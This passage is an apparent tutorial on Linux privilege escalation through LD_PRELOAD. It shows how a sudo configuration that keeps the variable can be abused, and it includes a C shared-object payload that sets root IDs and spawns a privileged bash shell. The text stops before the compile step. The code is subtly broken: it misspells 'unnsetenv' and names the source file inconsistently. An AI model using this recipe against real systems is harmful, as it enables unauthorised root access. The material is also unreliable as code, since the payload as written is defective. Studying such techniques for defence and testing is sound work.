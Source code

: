 # Privilege Escalation via LD_PRELOAD

The environment variable LD_PRELOAD can be used to specify the location of a shared object (.so) file. When this option is enabled, the shared object will be loaded first. We can run code as soon as the object is loaded by building a custom shared object and an `init()` function.

Edit the `sudo` configuration file:

```shell
sudo visudo
```

This configuration file will be configured as the following:

```shell
Defaults	env_reset
Defaults env_keep+=LD_PRELOAD
```

`LD PRELOAD` will fail if the effective user ID differs from the genuine user ID. `Sudo` must use the `env_keep` option to retain the `LD PRELOAD` environment setting.

List the current allowed programs and the default entries:

```shell
user@pwn:~$ sudo -l
Matching Defaults entries for user on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

Create a file (`preload.c`) 

```shell
vim ld_preload.c
```

Add the following code:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unnsetenv("LD_PRELOAD"); // The unsetenv() function deletes the variable name from the environment. If name does not exist in the environment, then the function succeeds, and the environment is unchanged.
	setresuid(0,0,0); // set SUID as root
	system("/bin/bash -p"); // spawn spawn using the SUID bit with (-p)
}
```

Compile `ld_preload.c` to `ld_preload.so`:
